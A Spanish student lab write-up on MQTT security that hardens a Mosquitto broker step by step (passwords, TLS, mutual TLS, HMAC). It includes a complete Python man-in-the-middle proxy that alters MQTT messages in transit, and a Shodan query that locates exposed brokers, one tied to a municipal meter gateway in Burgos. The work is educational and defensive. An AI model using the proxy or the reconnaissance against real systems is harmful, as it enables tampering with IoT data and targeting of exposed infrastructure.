# MQTT seguro: de "sin autenticación" a mTLS + HMAC, y por qué importa

**Resumen:** trabajo en grupo (con una compañera en el CETI) sobre seguridad en MQTT, el protocolo de mensajería que usan la mayoría de dispositivos IoT. Primero investigué implementaciones reales y mal configuradas de MQTT en Burgos (Shodan, mapas públicos), y después monté un broker Mosquitto entre dos Raspberry Pi en cuatro configuraciones progresivas — desde sin autenticación hasta con certificados mutuos y firma de mensajes — para comprobar en la práctica qué aporta cada capa de seguridad y qué sigue sin cubrir ninguna de ellas por sí sola.

## Contexto

- **Objetivo:** entender MQTT como protocolo (no solo "usarlo"), encontrar implementaciones reales mal aseguradas, y comprobar en laboratorio propio el efecto real de cada medida de seguridad sobre él: autenticación, cifrado en tránsito, autenticación mutua e integridad del mensaje.
- **Entorno:** dos Raspberry Pi propias (broker y cliente) en red local, y una máquina Kali para la parte de interceptación. Trabajo en grupo, módulo de Hacking Ético.

## Qué es MQTT (lo esencial)

MQTT (Message Queuing Telemetry Transport) es un protocolo ligero de mensajería publish/subscribe pensado para dispositivos con pocos recursos — sensores, IoT, una Raspberry Pi — sobre conexiones lentas o inestables. Nació en 1999 en IBM para monitorizar oleoductos por satélite, y hoy es un estándar abierto (gestionado por OASIS desde 2013).



Tres roles: el **publicador** envía mensajes a un tema (*topic*) sin saber quién los va a leer; el **suscriptor** se apunta a los temas que le interesan; el **broker** reparte cada mensaje entre los suscriptores de ese tema. La conexión se abre con `CONNECT`/`CONNACK`, y a partir de ahí se intercambian `PUBLISH` y `SUBSCRIBE`/`SUBACK`:



MQTT define tres niveles de calidad de servicio (QoS 0 a 2, de "como mucho una vez" a "garantizado y una sola vez"), a más fiabilidad más coste de mensajes intercambiados. **Mosquitto**, el broker que usamos, es la implementación de código abierto de la Eclipse Foundation: ligero (2-3 MB de RAM), portable, y con soporte nativo para TLS y autenticación por usuario/contraseña — que es justo lo que no viene activado por defecto.

## Buscando MQTT mal configurado en Burgos

Antes de montar nuestro propio laboratorio, buscamos implementaciones reales del protocolo cerca de casa:

- El mapa de **Meshtastic España** muestra en tiempo real nodos de radio LoRa que publican su posición por MQTT a un servidor público, incluyendo uno activo en Burgos:



- Con **Shodan**, filtrando por `mqtt country:"ES" city:"Burgos"`, encontramos 5 brokers MQTT expuestos a Internet, dos de ellos devolviendo sus temas internos (`$SYS/...`) sin ningún tipo de autenticación:



Uno de esos temas internos — `$SYS/broker/connection/geswat-gateway-e45f016cdc18.gomera/state` — nos llevó, buscando el identificador del dispositivo, a un gateway LoRaWAN usado para telelectura de contadores de agua y gas en instalaciones municipales:


Esto por sí solo ya es la demostración más convincente de por qué el resto de este trabajo importa: un broker sin autenticación expone, simplemente mirando sus topics del sistema, suficiente información como para identificar el dispositivo físico y su función real, desde fuera de la red donde está instalado.

## Laboratorio: cuatro configuraciones, de menos a más seguridad

### 1. Sin autenticación (la configuración por defecto)

Configuramos Mosquitto de la forma más simple posible: sin TLS y con acceso anónimo permitido, escuchando en el puerto estándar (1883) en todas las interfaces.



Con esto, cualquiera en la red (o con acceso al puerto) puede publicar y suscribirse sin ninguna credencial. Montamos un script que publica un mensaje cada 5 segundos para simular un sensor real...



...y lo ejecutamos: el broker recibe y distribuye el mensaje sin pedir nada a cambio.



Comprobamos además el coste en recursos del propio broker — mínimo, lo cual explica por qué Mosquitto se usa tanto en dispositivos modestos, pero también por qué nadie lo nota funcionando mal configurado dentro de una red:



### 2. Usuario y contraseña + TLS

Creamos un usuario con contraseña (guardada ya con hash, no en claro, en el fichero de contraseñas de Mosquitto)...



...generamos una CA y un certificado de servidor propios, y activamos TLS en el puerto estándar (8883), exigiendo también usuario y contraseña:



Para que el cliente confíe en el certificado del servidor, copiamos el certificado de la CA a la segunda Raspberry Pi:



Y comprobamos la comunicación cifrada y autenticada en ambos sentidos: publicar exige usuario, contraseña y el certificado de la CA para validar el servidor...



...y el cliente recibe el mensaje correctamente, ya sobre una conexión cifrada:



Con esto, alguien que capture el tráfico ya no puede leer los mensajes en claro ni autenticarse sin la contraseña — pero el servidor sigue sin verificar *quién* es el cliente, más allá de esa contraseña compartida.

### 3. TLS mutuo (mTLS) + integridad con HMAC

Añadimos autenticación mutua: el servidor exige que el cliente también presente un certificado válido, firmado por nuestra misma CA, y usa la identidad de ese certificado como si fuera el usuario.



Generamos el certificado del cliente (clave privada, solicitud de firma, y la firma hecha por nuestra CA):



Y comprobamos que, con los certificados de ambos lados en su sitio, la comunicación funciona sin necesitar ya usuario ni contraseña — la identidad la aporta el certificado:





mTLS resuelve quién puede conectarse al broker. Pero no dice nada sobre si el *contenido* de un mensaje concreto ha sido manipulado por alguien que ya esté dentro de la conversación (por ejemplo, otro cliente legítimo, o un proceso comprometido). Para eso añadimos una capa de integridad a nivel de aplicación: cada mensaje se firma con **HMAC-SHA256** usando una clave compartida generada aparte y distribuida fuera de banda:



Montamos un script en Python que, por cada mensaje, calcula su HMAC y lo envía junto al mensaje en un JSON (`{"msg": ..., "hmac": ...}`), para que el suscriptor pueda recalcularlo y comprobar que coincide antes de confiar en el contenido:





Con las cuatro capas juntas (TLS para cifrar el canal, certificado de cliente para autenticar quién conecta, y HMAC para garantizar que el contenido de cada mensaje no se ha tocado), un atacante necesitaría comprometer simultáneamente el canal cifrado, un certificado válido y la clave HMAC — no solo una de las tres.

### 4. Demostración: qué pasa sin ninguna de estas capas (Man in the Middle)

Para que la necesidad de todo lo anterior no se quede en teoría, volvimos a la configuración más débil (sin TLS) y, desde una máquina Kali en la misma red, montamos un proxy que se sitúa entre el cliente y el broker e intercepta el tráfico MQTT en crudo:

```python
# Proxy MITM para MQTT: intercepta en el puerto 1884, reenvía al broker real
# en el puerto 1883, y modifica el payload de los mensajes PUBLISH al vuelo.
import socket
import threading
import struct
from datetime import datetime

PROXY_HOST = '0.0.0.0'
PROXY_PORT = 1884
BROKER_HOST = '192.168.3.55'
BROKER_PORT = 1883
LOG_FILE = 'mqtt_mitm_debug.log'

def log(message):
    timestamp = datetime.now().strftime('%Y-%m-%d %H:%M:%S')
    log_msg = f"[{timestamp}] {message}"
    print(log_msg)
    with open(LOG_FILE, 'a') as f:
        f.write(log_msg + '\n')

def parse_mqtt_packet(data):
    if len(data) < 2:
        return None, None, None
    packet_type = (data[0] >> 4) & 0x0F
    remaining_length = data[1]
    packet_types = {
        1: "CONNECT", 2: "CONNACK", 3: "PUBLISH",
        4: "PUBACK", 8: "SUBSCRIBE", 9: "SUBACK",
        12: "PINGREQ", 13: "PINGRESP", 14: "DISCONNECT"
    }
    return packet_types.get(packet_type, f"UNKNOWN({packet_type})"), remaining_length, data[2:]

def extract_topic_and_payload(data):
    try:
        if len(data) < 4:
            return None, None
        topic_len = struct.unpack('!H', data[0:2])[0]
        if len(data) < 2 + topic_len:
            return None, None
        topic = data[2:2+topic_len].decode('utf-8', errors='ignore')
        payload = data[2+topic_len:]
        return topic, payload
    except Exception as e:
        log(f"Error extrayendo topic/payload: {e}")
        return None, None

def modify_mqtt_publish(data, direction):
    try:
        packet_type = (data[0] >> 4) & 0x0F
        if packet_type != 3:  # No es PUBLISH
            return data
        topic, payload = extract_topic_and_payload(data[2:])
        if topic and payload:
            original_payload = payload.decode('utf-8', errors='ignore')
            modified_payload = original_payload + " [MODIFICADO POR MITM]"
            if modified_payload != original_payload:
                log(f"MODIFICADO [{direction}] Topic: {topic} | {original_payload} -> {modified_payload}")
                topic_bytes = topic.encode('utf-8')
                payload_bytes = modified_payload.encode('utf-8')
                topic_header = struct.pack('!H', len(topic_bytes))
                new_content = topic_header + topic_bytes + payload_bytes
                new_length = len(new_content)
                return bytes([data[0]]) + bytes([new_length]) + new_content
        return data
    except Exception as e:
        log(f"Error modificando: {e}")
        return data

def handle_client(client_socket, client_addr):
    log(f"Nueva conexión desde {client_addr}")
    try:
        broker_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        broker_socket.connect((BROKER_HOST, BROKER_PORT))

        def forward_client_to_broker():
            while True:
                data = client_socket.recv(4096)
                if not data:
                    break
                broker_socket.sendall(modify_mqtt_publish(data, "client->broker"))

        def forward_broker_to_client():
            while True:
                data = broker_socket.recv(4096)
                if not data:
                    break
                client_socket.sendall(modify_mqtt_publish(data, "broker->client"))

        t1 = threading.Thread(target=forward_client_to_broker, daemon=True)
        t2 = threading.Thread(target=forward_broker_to_client, daemon=True)
        t1.start(); t2.start()
        t1.join(); t2.join()
    finally:
        log(f"Desconectado: {client_addr}")

def main():
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    server.bind((PROXY_HOST, PROXY_PORT))
    server.listen(5)
    log(f"Proxy MITM escuchando en {PROXY_PORT}, reenviando a {BROKER_HOST}:{BROKER_PORT}")
    while True:
        client_sock, client_addr = server.accept()
        threading.Thread(target=handle_client, args=(client_sock, client_addr), daemon=True).start()

if __name__ == "__main__":
    main()
```

El script usa dos hilos por conexión para reenviar el tráfico en ambos sentidos, y por el camino añade la marca `[MODIFICADO POR MITM]` a cualquier mensaje `PUBLISH` que pase por él, sin romper el protocolo MQTT en ningún otro aspecto (el cliente y el broker nunca se enteran de que hay un intermediario).

Publicamos un mensaje normal desde el broker...



...y en el cliente, al otro lado del proxy, el mensaje llega alterado:



Esto es exactamente lo que TLS (cifra el canal, así que el proxy no podría ni leer ni modificar el contenido) y el HMAC (aunque alguien modificara el mensaje, la firma dejaría de coincidir y el suscriptor lo detectaría) están pensados para impedir. Sin ninguna de las dos capas, un atacante con posición de red puede alterar silenciosamente los datos de cualquier sensor o actuador que hable por MQTT.

## Qué aprendí

- MQTT, igual que muchos protocolos IoT, nace priorizando el bajo consumo de recursos sobre la seguridad — por eso ninguna de sus protecciones viene activada por defecto, y un broker "recién instalado" es, en la práctica, un broker abierto.
- Las capas se complementan, no se sustituyen: la autenticación dice quién puede hablar, TLS protege que nadie más escuche o manipule el canal, y el HMAC protege el contenido del mensaje en sí, incluso si alguien ya está dentro de la conversación. Quitar cualquiera de las tres deja un hueco real, como demostró el MITM.
- Con una búsqueda abierta en Shodan y un mapa público encontramos, sin ninguna intrusión, un dispositivo real de infraestructura municipal en Burgos expuesto por topics MQTT sin autenticar — el riesgo de dejar un broker por defecto no es hipotético.
- **Pendiente:** no llegamos a medir el coste de rendimiento real de añadir las cuatro capas juntas (TLS + mTLS + HMAC) bajo carga, solo en reposo; sería la siguiente pregunta natural para un entorno con muchos dispositivos publicando a la vez.

## Fuentes

- [mqtt.org](https://mqtt.org/) · [mosquitto.org](https://mosquitto.org/)
- [PandoraFMS — Qué es MQTT](https://pandorafms.com/es/it-topics/que-es-mqtt/)
- [Mapa de Meshtastic España](https://mapa.meshtastic.es/)
- [Shodan](https://www.shodan.io/)
